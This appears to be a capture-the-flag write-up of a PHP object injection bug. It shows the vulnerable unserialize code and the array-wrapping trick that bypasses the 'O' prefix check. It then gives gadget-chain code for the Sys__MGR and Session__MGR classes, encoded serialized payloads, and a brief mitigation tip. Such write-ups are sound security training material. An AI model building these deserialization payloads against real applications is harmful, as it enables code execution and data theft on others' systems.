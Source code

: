 # Description

- **Type:** PHP Object Injection (POI)
- **Location:** `/supersecretscript.php?deser=`
- **Severity:** High
- **Impact:** Code execution via destruct method chain
- **Confirmed:** Yes (Flag retrieved)
- **RCE:** Not fully achieved (restricted to hardcoded command)

During reconnaissance **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**  
> O:8:"Sys__MGR":2:{s:3:"cmd";s:27:"curl http://127.0.0.1:1001/";s:7:"message";s:5:"hello";}  

But since our string can't start with O, we can't insert it directly, but this can easily be done by wrapping it in array.  

## PoC

**To exploit Sys_MGR()**  

Correct constructed payload was achieved by following PHP object chain:  
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```

**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A27%3A%22curl+http%3A%2F%2F127.0.0.1%3A1001%2F%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D  
![Sys_MGR](../images/sys.jpg)

Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  

**To exploit Session__MGR()**  

But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  

```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload:**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  

![Logger](../images/logger.jpg)



**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

